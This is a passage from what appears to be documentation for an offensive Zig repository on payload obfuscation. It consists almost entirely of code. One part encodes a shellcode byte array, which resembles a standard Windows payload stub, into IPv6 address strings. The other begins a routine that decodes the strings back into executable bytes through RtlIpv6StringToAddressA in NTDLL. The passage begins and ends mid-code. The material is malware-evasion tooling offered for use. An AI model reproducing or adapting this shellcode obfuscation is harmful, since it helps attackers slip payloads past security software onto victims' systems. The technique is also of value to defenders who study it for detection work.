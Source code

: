 ```zig title="main.zig"

            // Optional: To beautify the output on the console
            if (counter % 3 == 0) {
                try stdout.print("\n    ", .{});
            }
        } else {
            c += 1;
        }
    }

    try stdout.print("\n}};\n\n", .{});
    return true;
}

pub fn main() !void {
    // Create an arena allocator for efficient memory management
    var arena = std.heap.ArenaAllocator.init(std.heap.page_allocator);
    defer arena.deinit();

    const allocator = arena.allocator();

    // Example shellcode (must be a multiple of 16 bytes)
    const shellcode = [_]u8{
        0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, // Add more shellcode here if needed
    };

    // Generate and print the IPv6 representation
    _ = try generateIpv6Output(allocator, &shellcode);
}
```

## IPv6 Deobfuscation

[Source code](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/Payload-Obfuscation/IP-Address-Obfuscation/ipv6_deobfuscation)

```zig title="main.zig"
const std = @import("std");
const win = std.os.windows;
const kernel32 = win.kernel32;

const NTSTATUS = win.NTSTATUS;
const BOOLEAN = win.BOOLEAN;
const PCSTR = [*:0]const u8;
const PVOID = ?*anyopaque;
const PBYTE = [*]u8;
const SIZE_T = usize;

// Define function pointer type for RtlIpv6StringToAddressA
const fnRtlIpv6StringToAddressA = fn (
    S: PCSTR,
    Terminator: *PCSTR,
    Addr: PVOID,
) callconv(win.WINAPI) NTSTATUS;

/// Deobfuscates an array of IPv6 strings into a byte buffer
pub fn ipv6Deobfuscation(
    ipv6Array: []const [*:0]const u8,
    allocator: std.mem.Allocator,
) !struct { buffer: []u8, size: SIZE_T } {
    // Create a UTF-16 string for "NTDLL"
    const ntdll_w: [*:0]const u16 = std.unicode.utf8ToUtf16LeStringLiteral("NTDLL");
```